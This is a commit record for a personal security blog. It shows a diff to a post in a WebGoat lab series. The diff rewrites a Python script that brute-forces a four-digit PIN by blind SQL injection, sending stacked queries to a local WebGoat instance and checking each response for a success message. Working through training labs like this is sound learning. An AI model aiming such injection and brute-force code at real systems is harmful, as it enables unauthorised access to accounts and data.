

Before and after one commit to spencerdodd/spencerdodd.github.io, a Jekyll site: the page built from _posts/2017-01-30-webgoat_part_14.markdown, in a window 1280 px wide and 900 px high, scrolled down 3089 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
had to change python script...it was embarrassing

```diff
--- a/_posts/2017-01-30-webgoat_part_14.markdown
+++ b/_posts/2017-01-30-webgoat_part_14.markdown
@@ -52,24 +52,19 @@
 	}
 	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")
 
-	attempts = 0
-	for x in range(0, 10):
-		for y in range(0, 10):
-			for z in range(0, 10):
-				for a in range(0, 10):
-					attempts += 1
-					pin = "{}{}{}{}".format(x,y,z,a)
-					print ("[*] Attempt {} | PIN {}".format(attempts, pin))
-					pin_request = '101;select * from pins where cc_number = 1111222233334444 and pin = {}--'.format(pin)
-					payload= {"account_number":pin_request,"SUBMIT":"Go%21"}
-					r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=4&menu=1100", params=payload, headers=headers, cookies=cookies)
-					if r.status_code == 200:
-						if "account number is valid" in r.text.lower():
-							print ("[+] SUCCESS! PIN is: {}".format(pin))
-							sys.exit(0)
-					else:
-						print ("error: {}".format(r.text))
-						sys.exit(1)
+	for x in range(0, 10000):
+		pin = str(x).zfill(4)
+		print ("[*] Attempting PIN: {}".format(pin))
+		pin_request = '101;select * from pins where cc_number = 1111222233334444 and pin = {}--'.format(pin)
+		payload= {"account_number":pin_request,"SUBMIT":"Go%21"}
+		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=4&menu=1100", params=payload, headers=headers, cookies=cookies)
+		if r.status_code == 200:
+			if "account number is valid" in r.text.lower():
+				print ("[+] SUCCESS! PIN is: {}".format(pin))
+				sys.exit(0)
+		else:
+			print ("error: {}".format(r.text))
+			sys.exit(1)
 
 main()
 {% endhighlight %}
```
Also changed, not shown: images/2017-01-30-webgoat_part_14/pin-defeated.jpg.
